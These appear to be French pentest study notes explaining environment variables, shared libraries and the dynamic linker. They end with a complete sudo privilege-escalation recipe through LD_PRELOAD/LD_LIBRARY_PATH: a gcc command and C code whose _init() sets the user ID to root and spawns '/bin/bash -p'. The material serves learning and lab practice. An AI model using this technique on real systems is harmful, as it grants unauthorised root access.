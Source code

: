 Définition :

Une var d'env c'est juste une var pour chaque utilisateurs. En gros chaque env(user) a ses propres var d'env. Y'a quoi dedans ? ca dépent de la var.

Bibliothèque partagée/dynamique :

lib qui peut être utilisé par plusieurs programme en meme temps sans interférence. Ces lib ne sont pas entièrement dans le fichier binaire final. Seulement ce qui est nécessaire.

Programme statique :

Programme qui ne charge pas de bibli dynamique. Tout est entièrement dans le fichier binaire.

Dynamic linker :  
lie les bibliothèque à un programme. Travail facilité grace à l'option -fPIC.

-fPIC permet de situer la bibliothèque partagé. c'est une optimisation. En gros, si on lance deux fois le meme programme, les deux utiliseront la meme copie de la bibli. Par contre, si deux programme différent utilise la meme bibli, ils auront chacun leur propre copie pour leur propre nécessité. Tous ca facilite la tache pour le dynamic linker.

Liste des var d'env avec vuln :

LD_PRELOAD : Charge des bibliothèques partagés spécifié pour qu'elle chargent avant toute les autres. Donc par exemple si je créer une fonction print() qui stock des variables (rien a voir avec le vrai print) ce serai la fonction de ma bibli dans LD_PRELOAD qui sera prioritaire.

Exemple de vulnérabilité :

j'ai les perm pour executer un programme spécifique en sudo (que j'ai vu en faisant sudo -l).

je regarde quelles lib elle utilise donc : ldd emplacement/du/programme.

je fais gcc -o /tmp/nom_d'une_library qu'il utilise -shared -fPIC /home/user/tools/sudo/library_path.c

-shared pour créer un .so (shared object) partagé. -fPIC pour situer la bibli dynamiquement.

cette commande permet de créer une lib qui a le meme nom qu'un lib que le prog utilise déja pour la remplacer. dans cette lib, on mettra une fonction malvaillante qui aura le meme nom qu'un fonction deja utilisé dans le prog pour la remplacer. Exemple :

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {  
        unsetenv("LD_PRELOAD");  
        setresuid(0,0,0);  
        system("/bin/bash -p");  
}

ensuite, on lance le prog : sudo LD_LIBRARY_PATH=/tmp nom_du_prog ld_library_path dit où chercher la lib partagé (avec la fonction malvaillante) donc dans ce cas ci, dans tmp